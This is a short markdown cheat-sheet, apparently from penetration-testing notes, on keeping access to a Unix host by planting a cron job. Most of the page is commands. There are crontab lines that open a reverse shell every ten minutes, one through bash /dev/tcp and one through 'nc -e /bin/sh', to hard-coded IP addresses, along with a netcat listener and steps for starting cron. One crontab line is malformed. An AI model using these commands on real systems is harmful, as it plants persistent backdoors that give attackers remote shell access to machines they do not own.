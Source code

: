 # nc (ncat)

## Cronjob NC

* creates cronjob that connects to your machine every 10 minutes
* example using a bash-reverse-shell
* also set up a netcat listener.
* here is how you check if cronjob is active

```bash
service crond status
```

```bash
pgrep cron
```

* if it is not started you can start it like this

```bash
service crond status
```

```bash
/etc/init.d/cron start
```

```bash
crontab -e
```

```bash
*/10 * * * * 0<&196;exec 196<>/dev/tcp/192.168.1.102/5556; sh <&196 >&196 2>&196
/10 * * * * nc -e /bin/sh 192.168.1.21 5556
```

* listener

```bash
nc -lvp 5556
```

sometimes you have to set the user

```bash
crontab -e
```

```bash
*/10 * * * * pelle /path/to/binary
```

## More Here

* [http://kaoticcreations.blogspot.cl/2012/07/backdooring-unix-system-via-cron.html](http://kaoticcreations.blogspot.cl/2012/07/backdooring-unix-system-via-cron.html)
